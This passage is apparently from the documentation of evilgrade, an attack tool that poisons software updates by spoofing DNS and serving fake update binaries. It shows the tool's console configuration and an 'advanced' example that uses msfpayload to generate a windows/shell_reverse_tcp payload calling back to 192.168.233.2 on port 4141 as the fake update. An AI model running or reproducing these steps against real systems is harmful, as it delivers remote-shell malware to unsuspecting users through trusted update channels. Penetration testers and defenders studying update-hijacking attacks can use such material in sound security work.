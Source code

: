 ``` console
evilgrade>set DNSAnswerIp 192.168.1.4 #Ip where evilgrade's DNS Server is listening
set DNSAnswerIp, 192.168.1.4

evilgrade>show options

Display options:
===============

.-------------------------------------------------------------------------------------.
| Name        | Default     | Description                                             |
+-------------+-------------+---------------------------------------------------------+
| DNSEnable   |           1 | Enable DNS Server ( handle virtual request on modules ) |
| DNSAnswerIp | 192.168.1.4 | Resolve VHost to ip  )                                  |
| DNSPort     |          53 | Listen Name Server port                                 |
| debug       |           1 | Debug mode                                              |
| port        |          80 | Webserver listening port                                |
| sslport     |         443 | Webserver SSL listening port                            |
'-------------+-------------+---------------------------------------------------------'
```

###############################

exit      - exits the program

#######################################

help      - prints this screen, or help on 'command'

#######################################

.:: [DEMO] ::.

http://www.infobytesec.com/demo/evilgrade.htm

.:: [ADVANCED] ::.

- Modules Options:
Each module has special options, but the "agent" field is always present.
The agent is our fake update binary, we have to set the path to where it's located or implement a dynamic fake update binary generation.

[Dynamic fake update binary] allows the execution of an external command to generate our binary, for example using msfpayload of metasploit framework.
With this feature we can generate any payload of metasploit or use an external interface to create the binary.

# Example 1:

evilgrade(sunjava)>set agent '["/metasploit/msfpayload windows/shell_reverse_tcp LHOST=192.168.233.2 LPORT=4141 X > <%OUT%>/tmp/a.exe<%OUT%>"]'

In this case for every required update binary we generate a fake update binary with the payload "windows/shell_reverse_tcp"
using a reverse shell to connect at address 192.168.233.2 port 4141.
The label <%OUT%><%OUT> is a special tag to detect where the output binary is going to be generated.
Evilgrade detects the usage of "dynamic fake update binary feature" due to having a sentence between squared brackets '[]'
Inside that brackets we have a string that is also between brackets "" that is compiled using perl.
